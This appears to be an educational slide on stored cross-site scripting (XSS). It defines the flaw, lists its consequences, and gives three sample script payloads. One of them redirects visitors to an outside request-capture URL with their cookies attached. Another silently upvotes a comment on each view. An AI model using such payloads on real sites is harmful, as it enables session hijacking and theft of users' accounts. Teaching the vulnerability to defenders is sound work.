

# Cross-site scripting (XSS) Stored
Stored XSS arises when an application receives data from an untrusted source and stores that data within the application for other users to see.
Stored XSS allows the attacker to inject malicious payloads which is stored on a web page and every user who visits that webpage runs they payload.
This vulnerability can result in worms, session hijacking, identity theft, denial of service attacks, website vandalism, theft of sensitive information, and financial fraud.
<script>alert()</script> // displays an alert
<script>window.location = 'https://en0znfd3iuaxh.x.pipedream.net?cookie=' + document.cookie</script> // sends the user cookies to the url
<script>upvote()</script> // uses a function called upvote on the comment to boost the comment each time the comment is viewed.